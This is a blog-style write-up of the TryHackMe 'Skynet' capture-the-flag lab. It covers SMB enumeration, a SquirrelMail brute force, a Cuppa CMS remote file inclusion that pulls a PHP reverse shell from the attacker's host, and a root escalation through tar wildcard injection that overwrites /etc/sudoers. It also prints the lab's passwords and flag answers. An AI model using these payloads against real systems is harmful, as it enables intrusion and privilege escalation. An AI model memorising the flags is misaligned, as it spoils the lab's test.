


# Skynet – Writeup
# Welcome!

- YØ! I tackled **Skynet** on TryHackMe ([link here](https://tryhackme.com/room/skynet)), which was a **easy difficulty challenge**. This one's all about enumeration, SMB shares, email snooping, exploiting a CMS vulnerability, and some good old privilege escalation with a tar wildcard injection.

As always, I'll walk you through my process, the tools I used, and yeah... the rookie mistakes I made along the way (because let's be real, we all make them). Hope this helps someone out there!

<p align="center">
  
</p>

## Initial Reconnaissance


Time to get our hands dirty. First things first, I visited the target IP to see what we're dealing with. A simple webpage greeted me, nothing too exciting on the surface.


### Nmap Scan

Let's see what ports are open:

```bash
nmap -Pn -sV 10.10.24.11
```


A bunch of ports open! Smb, pop3 and imap seem interesting!

---

## Directory Enumeration

With multiple services running, I decided to enumerate the web directories first using Dirbuster.

After running Dirbuster, I found something interesting: **SquirrelMail**! That's a webmail client. Could be useful later.


I tried some basic SQL injection attempts on the login page... and failed miserably. Time to pivot.

---


## SMB Enumeration (LET'S SAMBAR!)

After those failed SQLi attempts, I remembered there was SMB running. Time to enumerate those shares!


I used `smbclient` to list available shares:

```bash
smbclient -L //10.10.24.11 -N
```


I couldn't acess the other shares without being logged in, but...


- **Bingo!** I could access the **anonymous** share without credentials. Let's see what treasures are inside.

```bash
smbclient //10.10.24.11/anonymous -N
```


I grabbed everything I could:
- `attention.txt` – Just a warning message


- `log1.txt` – Looks like a wordlist!


- `log2.txt` – Empty
- `log3.txt` – Also empty


### Time to organize our findings.

From the SMB enumeration, we noticed there's a user called **miles** and a share named **milesdyson**. So we potentially have two usernames and a nice password list from `log1.txt`.

---

## Brute Force SquirrelMail

With a username and a wordlist, it's time to brute force that SquirrelMail login!

I recently created a simple login/password brute force script (available in my GitHub "ctfTools" folder if you're interested). I created a `users.txt` file with potential usernames:
- milesdyson
- miles

And used `log1.txt` as the password list.


**Success!** Got the credentials:

**Username:** `milesdyson`  
**Password:** `cyborg007haloterminator`

**Question:** What is Miles password for his emails?

**Answer:** `cyborg007haloterminator`

---

## Reading Miles' Emails

Now let's log into SquirrelMail and see what Miles has been up to.

Logged in successfully! Time to snoop through some emails.


### First email:

Some casual but weird stuff 


### Second email: 
Contains binary! Ran it through CyberChef real quick... Doesn't seem to be anything useful, but I'll keep note of it just in case.  


### Third email: 
Hold up... this looks like another password!


**New password found!** 
Let's try accessing the SMB share with Miles' credentials now.

```bash
smbclient //10.10.24.11/milesdyson -U milesdyson
```



**Bingo!** We're in. I can see more directories now. The "notes" folder looks interesting while the rest seems like work-related content.


Inside the notes folder, there's a file called `important.txt`. That HAS to be important, right?


**Found it!** A hidden directory: `/45kra24zxs28v3yd`

**Question:** What is the hidden directory?

**Answer:** `/45kra24zxs28v3yd`

---

## The Hidden CMS (ROOKIE MISTAKE TIME!)

**Description:**
Let's visit that hidden directory and see what Miles is hiding.

**Explanation:**
Navigating to `http://10.10.24.11/45kra24zxs28v3yd/` shows a simple webpage. Nothing crazy here. I can see a `miles.jpg` in the source code, but not much else.


The next TryHackMe question is:

**Question:** What is the vulnerability called when you can include a remote file for malicious purposes?

**Answer:** `remote file inclusion`

Hmm, this must be about RFI. I went back to SquirrelMail thinking I could upload files there... nope, doesn't work like that.


After some head-scratching, I realized: **I MADE A ROOKIE MISTAKE!**

**I DIDN'T ENUMERATE THE HIDDEN DIRECTORY!**

Time to fix that:

```bash
gobuster dir -u http://10.10.24.11/45kra24zxs28v3yd/ -w wordlists/common.txt -t 30 -x php,html,txt -o gobuster_dir.txt
```

Even before the scan finished:


**Found it:** `http://10.10.24.11/45kra24zxs28v3yd/administrator/`

**Cuppa CMS!** SO THIS IS WHAT THEY WERE REFERRING TO!


---

## Exploiting Cuppa CMS

Now we have a CMS to exploit. Let's see what vulnerabilities exist for Cuppa CMS.

First, I tried the basics:
- Default credentials? Nope.
- SquirrelMail credentials? Nada.
- SQL injection? Also no.

Time to consult Google:

**Search:** "cuppa cms remote file inclusion"


**Found it:** [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971)

The exploit shows we can view system files through a URL parameter. Let's test it:

```
http://10.10.24.11/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```


**Incredible.** We can read `/etc/passwd`!

The exploit mentions we can achieve full server compromise. That's exactly what we want. The plan:
1. Host a PHP reverse shell on our machine
2. Make the vulnerable URL fetch our reverse shell
3. Profit!

Download the reverse shell from pentestmonkey and modify the IP and port:

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


Start a PHP server to host our reverse shell:

```bash
php -S 0.0.0.0:8000
```


Start a netcat listener in another terminal:

```bash
ncat -lvnp 1337
```


Now trigger the exploit:

```
http://10.10.24.11/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://YOUR_IP:8000/revshell.php
```


**WE'RE IN!**

Stabilize the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


---

## User Flag

Time to grab that user flag!

Navigate to Miles' home directory:

```bash
cd /home/milesdyson
cat user.txt
```



**Question:** What is the user flag?

**Answer:** `7ce5c2109a40f958099283600a9ae807`

---

## Privilege Escalation (Tar Wildcard Injection)

Now for the fun part: getting root!

After poking around the filesystem, I found a `backup` folder in Miles' home directory with a `backup.sh` script.


The backup script is... literally just a backup. But what kind of Linux user doesn't automate their backups? Nobody does manual backups.

**Let's check the crontabs!**

```bash
cat /etc/crontab
```


---
#### mdadm


---
#### php


---
#### popularity-contest


---


The last entry looks interesting! The backup script runs as root every minute using `tar`.

**Time to abuse tar wildcard injection!**

First, move to `/var/www/html` where we have proper human permissions:

```bash
cd /var/www/html
```

Create our malicious script:

```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > binhoberde.sh
```

This creates a script that will give `www-data` sudo privileges without a password.

Now create the wildcard files that tar will interpret as command-line options:

```bash
echo "/var/www/html" > "--checkpoint-action=exec=sh binhoberde.sh"
echo "/var/www/html" > --checkpoint=1
```

These filenames literally mimic tar options. When tar processes wildcards, it will execute our script!

**Wait one minute...** (literally, the cronjob runs every minute)

<p align="left">
  
</p

Check if we have sudo:

```bash
sudo -l
```


**YES!** Now get root:

```bash
sudo su
```


Navigate to root's home directory:

```bash
cd /root
cat root.txt
```


**Question:** What is the root flag?

**Answer:** `3f0372db24753accc7179a282cd6a949`

---

# Goodbye!

And that's a wrap! This challenge was a great test of enumeration, exploitation, and privilege escalation. The tar wildcard injection was definitely the highlight.

Remember: Always enumerate EVERYTHING (don't be like me and forget directories).

Until next time and keep hacking!

<p align="center">
  
</p
